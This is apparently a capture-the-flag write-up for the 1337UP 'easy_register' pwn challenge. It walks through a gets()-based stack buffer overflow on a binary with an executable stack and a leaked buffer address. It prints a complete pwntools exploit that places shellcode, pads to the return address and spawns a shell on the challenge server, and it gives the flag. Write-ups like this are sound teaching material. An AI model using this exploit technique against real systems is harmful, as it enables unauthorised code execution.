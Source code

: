 ```yaml
---
title: 1337UP CTF pwn-easyregister
author: jopraveen
date: 2022-03-13
categories: [1337UP]
tags: [CTFtime]
---
```


## Easy Register

![](https://i.imgur.com/urPqzh3.png)

- First let's download and analyze the binary

#### Info
- ELF 64-bit executable
- Dynamically linked
- Not stripped

**checksec:**

![](https://i.imgur.com/FLpgy9B.png)
- The Stack is executable because NX is disabled
- First let's run the binary and see what it gives

#### Analyzing

```js
➜  pwn  ./easy_register 
  _ _______________ _   _ ____  
 / |___ /___ /___  | | | |  _ \ 
 | | |_ \ |_ \  / /| | | | |_) |
 | |___) |__) |/ / | |_| |  __/ 
 |_|____/____//_/   \___/|_|    
                                
[i] Initialized attendee listing at 0x7ffd0421cac0.
[i] Starting registration application.

Hacker name > jopraveen

[+] Registration completed. Enjoy!
[+] Exiting.
```
- We have a leak `0x7ffd0421cac0`
- Most likely, this will be the starting address of our buffer 
- Then we're prompted to give our name
- May be there's a buffer overflow?
- Let's decompile this binary and see what it does :D

![](https://i.imgur.com/AR1b2AI.png)
- Cool, they're using gets and it's vulnerable to buffer overflow
- Find the offset to Instruction pointer (I didn't mention it in the post because it's very easy)
- Now let's write our exploit

```python
from pwn import *

elf = context.binary = ELF('easy_register')
p = elf.process()
p = remote('easyregister.ctf.intigriti.io',7777)

p.recvuntil('listing at ')
stack_buffer = int(p.recvline().replace(b'.',b''),16)
log.success(f'stack leak: {hex(stack_buffer)}')
```
- First let's store the leak in a variable

```python
payload = asm(shellcraft.sh()) # shellcode
payload += b'A'*(88 - len(payload)) # junk
payload += p64(stack_buffer) # buffer base address
```
- Let's put our shellcode at the beginning and fill some junk until RIP
 
*Note: Offset to RIP is **88*** 

- Finally let's overwrite the Instruction pointer with the leaked value (our input buffer's starting address)

### Full exploit
```python
from pwn import *

elf = context.binary = ELF('easy_register')
p = elf.process()
p = remote('easyregister.ctf.intigriti.io',7777)

p.recvuntil('listing at ')
stack_buffer = int(p.recvline().replace(b'.',b''),16)
log.success(f'stack leak: {hex(stack_buffer)}')

payload = asm(shellcraft.sh())
payload += b'A'*(88 - len(payload))
payload += p64(stack_buffer)

p.sendline(payload)
p.interactive()
```

![](https://i.imgur.com/XzfYQ6L.png)
- We got our flag `1337UP{Y0u_ju5t_r3g15t3r3d_f0r_50m3_p01nt5}`
    
    
    
